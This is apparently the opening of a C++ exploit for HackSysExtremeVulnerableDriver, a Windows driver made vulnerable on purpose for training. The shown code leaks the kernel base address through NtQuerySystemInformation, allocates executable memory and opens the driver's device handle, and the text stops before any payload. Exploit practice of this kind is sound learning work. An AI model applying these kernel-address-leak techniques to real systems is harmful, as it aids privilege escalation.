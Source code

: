 ```cpp


UINT64 GetNtBase() {
	NTSTATUS Status = 0x0;
	ULONG ReturnLength = 0;

	_NtQuerySystemInformation NtQuerySystemInformation = (_NtQuerySystemInformation)GetProcAddress(GetModuleHandleW(L"ntdll.dll"), "NtQuerySystemInformation");

	if (NtQuerySystemInformation == nullptr) {
		printf("\n[ERROR GETTING THE ADDRESS TO \"NtQuerySystemInformation\"]\n");
		return 0;
	}

	Status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)11, nullptr, 0, &ReturnLength);

	PSYSTEM_MODULE_INFORMATION pModuleInfo = (PSYSTEM_MODULE_INFORMATION)VirtualAlloc(nullptr, ReturnLength,
		MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	Status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)11, pModuleInfo, ReturnLength, &ReturnLength);
	if (Status != 0x0) {
		printf("\nError getting the length of the Module Struct -> 0x%0.16X\n", Status);
		return 0;
	}

	printf("\n[Module Name] %s\n\t\\__[Base Address] 0x%p\n\t\\__[Module Size] %d\n",
		pModuleInfo->Modules[0].Name, pModuleInfo->Modules[0].ImageBaseAddress, pModuleInfo->Modules[0].ImageSize);

	char* ModuleName = pModuleInfo->Modules[0].Name;
	PVOID ModuleBase = pModuleInfo->Modules[0].ImageBaseAddress;
	ULONG ModuleSize = pModuleInfo->Modules[0].ImageSize;

	printf("\npModuleInfo->Modules[0] -> 0x%p\n", pModuleInfo->Modules[0]);

	VirtualFree(pModuleInfo, ReturnLength, MEM_RELEASE);

	return (UINT64)ModuleBase;
}






int main() {

	UINT64 KernelBase = GetNtBase();

	if (KernelBase == 0) {
		printf("\n[!] ERROR GETTING THE KERNEL BASE ADDRESS\n");
		getchar();
		return -1;
	}
	printf("\n[KERNEL BASE] -> 0x%p\n", KernelBase);

	HANDLE hHEVD = CreateFileW(L"\\\\.\\HackSysExtremeVulnerableDriver", (GENERIC_READ | GENERIC_WRITE),
		0, nullptr, OPEN_EXISTING, 0, nullptr);
	if (hHEVD == INVALID_HANDLE_VALUE) {
		printf("\nError getting a handle to the driver\n");
```